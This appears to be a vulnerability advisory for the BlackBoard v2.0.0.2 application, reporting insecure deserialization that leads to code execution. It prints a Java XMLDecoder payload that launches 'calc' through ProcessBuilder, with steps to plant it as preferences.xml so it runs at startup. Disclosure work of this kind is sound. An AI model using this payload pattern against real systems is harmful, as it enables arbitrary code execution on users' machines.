 # BlackBoard V2.0.0.2  Insecure Deserialization & RCE
Affected Version: <= v2.0.0.2(latest release version)

Application: [Here](https://github.com/mpue/blackboard/releases/tag/2.0.0.2)



## Insecure Deserialization Vulnerability
```php
<java>
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1" >
            <void index="0">
                <string>calc</string>
            </void>
        </array>
        <void method="start"/>
    </object>
</java>
```
After saving the above code as preferences.xml file, upload the file to the C:\Users\username\.BlackBoard folder, and create three empty folders "models", "simulators", and "symbols" in the .BlackBoard directory. Start the application to trigger the vulnerability.



## Exploit

Saving the code as preferences.xml file, upload the file to the folder **C:\Users\username\.BlackBoard**. Create three empty folders **"models", "simulators", and "symbols"** in the .BlackBoard directory. Start the application to trigger the vulnerability.

![image-20241026165808034](img/image-20241026165808034.png)



![image-20241026165820456](img/image-20241026165820456.png)



![image-20241026165831664](img/image-20241026165831664.png)

